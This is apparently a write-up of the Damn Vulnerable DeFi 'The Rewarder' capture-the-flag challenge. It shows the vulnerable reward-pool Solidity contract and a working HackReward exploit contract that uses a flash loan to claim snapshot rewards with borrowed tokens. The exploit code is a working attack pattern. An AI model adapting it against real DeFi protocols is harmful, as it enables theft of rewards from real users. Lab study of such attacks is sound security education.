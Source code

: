 # The Rewarder #

The get all the reward token. 

we wait till when the REWARDS_ROUND_MIN_DURATION has reached(5days). 

There are 4 contract involved in this challenge. but we will be focusing on the `TheRewarderPool` contract.  


`pragma solidity ^0.6.0;

import "./RewardToken.sol";
import "../DamnValuableToken.sol";
import "./AccountingToken.sol";

contract TheRewarderPool {

    // Minimum duration of each round of rewards in seconds
    uint256 private constant REWARDS_ROUND_MIN_DURATION = 5 days;

    uint256 public lastSnapshotIdForRewards;
    uint256 public lastRecordedSnapshotTimestamp;

    mapping(address => uint256) public lastRewardTimestamps;

    // Token deposited into the pool by users
    DamnValuableToken public liquidityToken;

    // Token used for internal accounting and snapshots
    // Pegged 1:1 with the liquidity token
    AccountingToken public accToken;
    
    // Token in which rewards are issued
    RewardToken public rewardToken;

    // Track number of rounds
    uint256 public roundNumber;

    constructor(address tokenAddress) public {
        // Assuming all three tokens have 18 decimals
        liquidityToken = DamnValuableToken(tokenAddress);
        accToken = new AccountingToken();
        rewardToken = new RewardToken();

        _recordSnapshot();
    }

    /**
     * @notice sender must have approved `amountToDeposit` liquidity tokens in advance
     */
    function deposit(uint256 amountToDeposit) external {
        require(amountToDeposit > 0, "Must deposit tokens");
        
        accToken.mint(msg.sender, amountToDeposit);
        distributeRewards();

        require(
            liquidityToken.transferFrom(msg.sender, address(this), amountToDeposit)
        );
    }

    function withdraw(uint256 amountToWithdraw) external {
        accToken.burn(msg.sender, amountToWithdraw);
        require(liquidityToken.transfer(msg.sender, amountToWithdraw));
    }

    function distributeRewards() public returns (uint256) {
        uint256 rewardInWei = 0;

        if(isNewRewardsRound()) {
            _recordSnapshot();
        }        
        
        uint256 totalDeposits = accToken.totalSupplyAt(lastSnapshotIdForRewards);
        uint256 amountDeposited = accToken.balanceOfAt(msg.sender, lastSnapshotIdForRewards);

        if (totalDeposits > 0) {
            uint256 reward = (amountDeposited * 100) / totalDeposits;

            if(reward > 0 && !_hasRetrievedReward(msg.sender)) {                
                rewardInWei = reward * 10 ** 18;
                rewardToken.mint(msg.sender, rewardInWei);
                lastRewardTimestamps[msg.sender] = block.timestamp;
            }
        }

        return rewardInWei;     
    }

    function _recordSnapshot() private {
        lastSnapshotIdForRewards = accToken.snapshot();
        lastRecordedSnapshotTimestamp = block.timestamp;
        roundNumber++;
    }

    function _hasRetrievedReward(address account) private view returns (bool) {
        return (
            lastRewardTimestamps[account] >= lastRecordedSnapshotTimestamp &&
            lastRewardTimestamps[account] <= lastRecordedSnapshotTimestamp + REWARDS_ROUND_MIN_DURATION
        );
    }

    function isNewRewardsRound() public view returns (bool) {
        return block.timestamp >= lastRecordedSnapshotTimestamp + REWARDS_ROUND_MIN_DURATION;
    }
}`

how the hack will be carried out

we borrow the `DamnValuableToken` from the `flasloaner` contract. 
we deposit the token to the `TheRewarderPool` contract which will trigger the `distributeRewards` function and the reward will be distributed to us. we get the reward, we click on `withdraw` fucntion which will send the `DamnValuableToken`token that we borrowed back to us. we deposit the DamnValuableToken back to the flashloan contract. 

The loan is paid back and we've gotten the reward

how to implement the hack"

`pragma solidity ^0.6.0;

import "./TheRewarderPool.sol";
import "./RewardToken.sol";

contract HackReward {
    FlashLoanerPool public pool;
    DamnValuableToken public token;
    TheRewarderPool public rewardPool;
    RewardToken public reward;

    constructor(address _pool, address _token, address _rewardPool, address _reward) public {
        pool = FlashLoanerPool(_pool);
        token = DamnValuableToken(_token);
        rewardPool = TheRewarderPool(_rewardPool);
        reward = RewardToken(_reward);
    }

    fallback() external {
        uint bal = token.balanceOf(address(this));

        token.approve(address(rewardPool), bal);
        rewardPool.deposit(bal);
        rewardPool.withdraw(bal);

        token.transfer(address(pool), bal);
    }

    function attack() external {
        pool.flashLoan(token.balanceOf(address(pool)));
        reward.transfer(msg.sender, reward.balanceOf(address(this)));
    }
}`

How this works?
we call the `attack` function in `HackReward` contract which calls the `flashloan` function in the `FlashLoanerPool` contract, so we get the loan. the `FlashLoanerPool` contract makes a call to our contract calling `receiveFlashLoan`. 
wondering, why we have some function call in the fallback contract?. when the `flashloan` makes a callm`receiveFlashLoan` to get back the loan, the function isn't available in our `HackReward` contract so the call falls back to the `fallback` function and run all the fucntion calls in it.

in our `fallback` function, we we deposit `DamnValuableToken` that we got from the `flashloan` contract to the `TheRewarderPool` contract, get the reward,  withdraw our `DamnValuableToken` back and we deposit the loan that we borrowed back to the `FlashLoanerPool` contract. so the loan is pay back

back to the `attack` function, the `flashloan` call has ended and the `transfer` call is trigger so that the msg.sender gets the reward token in his address

Solution to the challenge can  be found [here](https://github.com/Ultra-Tech-code/damn-vulnerable-defi/blob/d474185e41b8ef04e8cef5c5dbb04c2b6d11717a/test/the-rewarder/the-rewarder.challenge.js#L65) 
